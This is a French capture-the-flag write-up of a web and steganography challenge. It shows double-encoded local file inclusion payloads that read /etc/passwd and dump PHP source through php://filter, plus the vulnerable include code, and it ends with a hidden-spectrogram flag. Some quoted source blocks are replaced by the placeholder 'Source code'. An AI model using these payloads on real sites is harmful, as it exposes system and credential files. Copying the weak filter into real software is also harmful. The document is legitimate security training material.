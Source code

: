 # CTF Midnight Flag : INFEKTION

## Web / Stéganographie

### Challenge : To be private or not to be private 

**Auteur :** Spownark / **Points :** 500


L'énoncé du challenge nous donne le site suivant : 
[https://cloud.midnightflag.fr/index.php](https://cloud.midnightflag.fr/index.php)

En manipulant l'URL, je m'aperçois rapidement qu'une faille LFI est exploitable.
Je commence donc à injecter un payload avec double encodage afin de récupérer le contenu du fichier **/etc/passwd** :
`https://cloud.midnightflag.fr/index.php?categorie=..%252f..%252f..%252fetc%252fpasswd`

J'ai bien le contenu du fichier en retour mais je ne vois aucun utilisateur ou service exploitable :

![cloud0.png](./Images/cloud0.png)

Je décide donc de télécharger le contenu du fichier index.php grâce au wrapper PHP filter :
`https://cloud.midnightflag.fr/index.php?categorie=php:%252F%252Ffilter%252Fconvert.base64-encode%252Fresource=index.php`

Avec cette requête, je récupère le contenu du fichier index.php en base64 directement sur la page web.

Après décodage, je vois le code PHP suivant correspondant aux filtres LFI appliqués (bypass de la fonction via double encodage) :
```php
    <?php
    function lfi_filter($value)
    {
        $omit_words = array('..', '../', '/');
        rsort($omit_words);
        $new_string = str_replace($omit_words, '', $value);
        return $new_string;
    }
    
    if (isset($_GET["categorie"])) {
      $categorie = lfi_filter($_GET["categorie"]);
      include urldecode($categorie);
    }else {
      include 'home.php';
    }
    ?>
```
A partir de cet instant, je cherche un petit moment avant de poursuivre le challenge car le code PHP récupéré nous donne aucune information supplémentaire.
J'essaye par la suite d'obtenir une RCE via différents payloads LFI mais rien de concluant.
Le fuzzing n'étant pas autorisé sur ce challenge, il est venu le temps du **#guessing** !

En regardant le nom du challenge et par rapport à la structure du site, après multiples tentatives je tente de joindre la page private.php : [https://cloud.midnightflag.fr/index.php?categorie=private.php](https://cloud.midnightflag.fr/index.php?categorie=private.php) et j'ai bien un retour !

Je récupère donc le code source de cette page avec le même payload que précédemment :
`https://cloud.midnightflag.fr/index.php?categorie=php:%252F%252Ffilter%252Fconvert.base64-encode%252Fresource=private.php`

J'obtiens le code source suivant :
```html
Source code
```
Je remarque le commentaire suivant avec des chars en ASCII : `Source code`

Après conversion, je récupère la valeur suivante : **personal**

Je suppose donc que le site possède une catégorie personal, je me rend donc sur l'URL [ https://cloud.midnightflag.fr/index.php?categorie=personal.php](https://cloud.midnightflag.fr/index.php?categorie=personal.php) et je tombe sur un enregistrement audio au format wav.

Après téléchargement de l'enregistrement audio, je l'ouvre avec le logiciel Audacity afin d'analyser le contenu.

L'audio généré par l'enregistrement me laisse penser qu'une information est présente dans le spectrogramme :

https://user-images.githubusercontent.com/49941629/165365721-bf3fb966-fcdc-4e0e-a0d3-49bad9cf47e8.mp4

Après inversion de la piste audio et analyse du spectre, je récupère l'information suivante :

![cloud2](https://user-images.githubusercontent.com/49941629/165366030-8d6061f3-34d3-4f9b-8bfd-6a262bef336e.png)

Flag : MCTF{H1d3_Y0uR_S3cRe7s}
